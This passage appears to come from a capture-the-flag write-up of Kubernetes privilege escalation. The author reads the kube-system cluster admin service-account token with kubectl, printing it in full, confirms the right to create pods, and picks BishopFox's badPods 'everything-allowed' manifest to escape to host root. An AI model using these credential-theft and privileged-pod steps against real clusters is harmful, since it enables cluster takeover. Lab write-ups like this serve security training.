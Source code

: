 Notice the `c-admin-token-tfmp2` this is the cluster admin secret!

```bash
root@devnode-deployment-cd86fb5c-6ms8d:~# ./kc describe secrets/c-admin-token-tfmp2 -n kube-system
<describe secrets/c-admin-token-tfmp2 -n kube-system
Name:         c-admin-token-tfmp2
Namespace:    kube-system
Labels:       <none>
Annotations:  kubernetes.io/service-account.name: c-admin
              kubernetes.io/service-account.uid: 2463505f-983e-45bd-91f7-cd59bfe066d0

Type:  kubernetes.io/service-account-token

Data
====
token:      eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow
ca.crt:     1066 bytes
namespace:  11 bytes
```

Check if we can create pods.

![../../assets/images/unobtainium/Untitled_28.png](../../assets/images/unobtainium/Untitled_28.png)

Now that we can create pods lets do some research on how to abuse this, if we can create a malicious pod perhaps that's our path to real root...

Quick Google brings up badPods: [https://github.com/BishopFox/badPods](https://github.com/BishopFox/badPods)

Let's go with option 1 - Everything Allowed due to us having the cluster admin secret - [https://github.com/BishopFox/badPods/tree/main/manifests/everything-allowed](https://github.com/BishopFox/badPods/tree/main/manifests/everything-allowed)

